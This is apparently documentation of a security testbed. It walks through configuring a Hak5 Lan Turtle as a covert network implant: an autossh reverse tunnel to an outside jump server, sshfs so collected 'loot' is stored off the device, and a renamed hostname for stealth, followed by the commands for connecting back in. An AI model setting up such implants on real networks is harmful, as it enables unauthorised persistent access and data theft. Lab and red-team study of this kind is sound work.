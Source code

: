 # Lan Turtle

To represent a physical implant that provides persistent remote access, we selected the [Lan Turtle by Hak5](https://hak5.org/products/lan-turtle). This device is designed to look like a USB Ethernet adapter (or a USB-to-Ethernet KVM) but is really an embedded Linux system that can provide a number of simple capabilities. The unit we had also contained the 3G modem, but we elected not to use it for this setup.

## Configuration

In theory, updating the device to the latest firmware should be easy and straight-forward. It isn't... at least not for me, and a number of others who (helpfully) posted their struggles online.

You should be able to use the `turtle` command, enter the configuration menu, check for updates, apply, reboot, and be golden. The problem I faced, however, was that when I did this, I ended up with a device that would no longer pull modules, check for updates, anything.

After much debugging and gnashing of teeth, it became clear that the issue was that the date/time on the device was out of sync, and therefore SSL validation would fail. Some suggested simply disabling SSL cert validation, but this seems unwise on a security-focused device. Making things further frustrating, I learned that AT&T blocks NTP packets due to network threats, so the configured-by-default NTP client on the turtle fails to obtain an updated time value.

What I ended up figuring out, is as follows:

```bash
# ssh into the turtle, exit the configuration utility 
# and end up at the shell

# update the software listing
$ opkg update

# install a non-NTP-based time update utility
$ opkg install htpdate

# force the time to be updated (using the webserver at 1.1.1.1;
# could be really any valid site)
$ htpdate -s 1.1.1.1
```

Once this is done, it is not a bad idea to add this last command (`htpdate -s 1.1.1.1`) into `/etc/rc.local` so it gets executed on each system start. 

!!! warning
    It might make most sense to change this to daemon mode so it runs all the time

    ```
    htpdate -D 1.1.1.1
    ```

After following all of these steps, I was able to successfully update the device to firmware version `6.2-stable`. For reference, additional firmware files and details are available here: https://downloads.hak5.org/turtle. 

Another general configuration step to assist with the _stealthy-ness_ of the activities, is to edit `/etc/config/system` and change the `hostname` to something other than `turtle`. Making it something less obvious may help hide it longer (e.g. `usbeth0`).

Additionally, I deployed the ssh public key from my attacker machine to the turtle to make subsequent logins easier.

```bash
ssh-copy-id -i ~/.ssh/id_rsa.pub root@172.16.84.1
```

The next configuration activities included installing and configuring the modules. 

### Modules

From within the `turtle` shell, you can choose `Modules` and then select the `modulemanager` module. The `start` and `enable` functions do not really apply for this module, but `Configure` does. From the configuration manager, you choose to update the directory, agree to connect to `lanturtle.com` and then browse/select the modules you'd like to install. For this instance, I chose to keep things simple and just installed the following: `autossh`, `keymanager`, and `sshfs`. Once these have been installed, you can step back a few screens to the main _Modules_ window where you will see and be able to configure the installed modules.

### KeyManager

This module is another that you simply configure, and the only thing I needed to do here was the `generate_key` command. This is just a UI-wrapper on `ssh-keygen`. Once this is done, I needed to transfer the public key (`/.ssh/id_rsa.pub`) to the account on the cloud-hosted jump server. 

!!! Note
    On the jump server, I had previously configured an account (`turtle`) that would be used by this device. Additionally, if the jump server allowed password-based SSH connections, the `KeyManager` module would have allowed me to deploy my key directly. However, since I am only allowing keys, I have to shuffle it through another account and cannot use the automated scripts.

### AutoSSH

The `autossh` module maintains persistent SSH shells to another server and can forward local ports to the remote server for the purpose of enabling reverse tunnling through the established shell. This is a more _normal_ module, so we begin by configuring it:

- user@host: `turtle@george.bitpredator.com`
- Port: `22`
- Remote Port: `2222`
- Local Port: `22`

The last two lines expose port `22` on the turtle's local network interface to port `2222` on the host it is going to tunnel to (in this case, `george.bitpredator.com`). We submit these settings and then select `enable` to have it start each time the device boots up, and finally we click `start` to get it up and running.

!!! Warning
    In prior versions, the instructions up to this point would have worked just fine. However, the last `start` command now fails because my jump server host is not in the `known_hosts` file. In an effort to be maybe a little too smart, this is now bundled into the `copy_key` configuration option of the `keymanager` module, which won't work for me because of my password-less restriction on the jump server. I simply exited to the shell, manually established an SSH connection to my jump server which caused bash to prompt me to update `authorized_keys`. This being done (and confirming that the connection worked), I was able to return to the turtle shell (`turtle`) and start this module.

### SSHFS

The last module to configure is `sshfs`. This simply mounts a remote file system as if it were local. In this case, it allows us to expand the rather meager storage of the turtle to whatever amount of disk is available in my jump server. The configuration of this module is rather simple:

- Host: `george.bitpredator.com`
- Port: `22`
- User: `turtle`
- Path: `/home/turtle`

This will map the local `/sshfs` directory on the turtle to the `/home/turtle` directory on the jump server. Now we submit the configuration, enable it, and then start it.


## Deployment

In the testbed, the turtle is plugged into a USB port on `Lap01` for the purposes of providing power. It could theoretically also provide some MITM capabilities for this machine, but we are not using them. The ethernet jack is connected directly to the primary switch and it serves as a remotely-accesible beachhead. 

```mermaid
graph LR
  A[Router] --> B[Switch];
  B --> C[Lap01];
  B --> D[Turtle];
  C --> D;
  B --> E[Lap02];
```

<figure>
  <img src="/images/turtle.jpg" width="400" />
  <figcaption>Deployed LanTurtle</figcaption>
</figure>


## Use

With the device configured and deployed into the test bed, it will provide me a remotely-accessible shell any time I need it. The following demonstrates its use:

```bash
# Connect from my attacker machine to my jump server
$ ssh root@george.bitpredator.com

# copy my local ssh key (on jump server) to turtle
$ ssh-copy-id -i .ssh/id_rsa.pub root@localhost -p 2222

# Connect via the reverse ssh tunnel into the turtle/target env
$ ssh root@localhost -p 2222

# write files to turtle's "local" storage, remapped to jump server
$ touch /sshfs/bubb02
```

!!! tip
    One key feature of using `sshfs` on the turtle as the storage location for "loot", is that if the device happens to be found and/ore disconnected by a local user/network admin, anything that you had gathered will not actually reside on the turtle, but instead on the drive of the jump server which remains in your control
